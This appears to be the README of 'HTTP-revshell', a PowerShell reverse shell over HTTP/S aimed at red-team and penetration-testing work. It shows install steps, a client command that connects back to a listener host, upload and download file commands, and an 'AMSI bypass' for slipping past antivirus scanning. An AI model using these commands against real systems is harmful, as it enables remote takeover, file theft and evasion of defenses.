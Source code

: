 Powershell HTTP/S Reverse Shell
------------

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

Installation
------------

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

server.py - server unisession
------------

Server usage:
```
usage: server.py [-h] [--ssl] host port

Process some integers.

positional arguments:
  host        Listen Host
  port        Listen Port

optional arguments:
  -h, --help  show this help message and exit
  --ssl       Send traffic over ssl
```

Invoke-WebRev.ps1 - client
------------

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

Extra functions
------------

```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

Features
------------

    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass

TODO
------------

    - Multiple sessions (only server-multisession.py)
    - Autocomplete

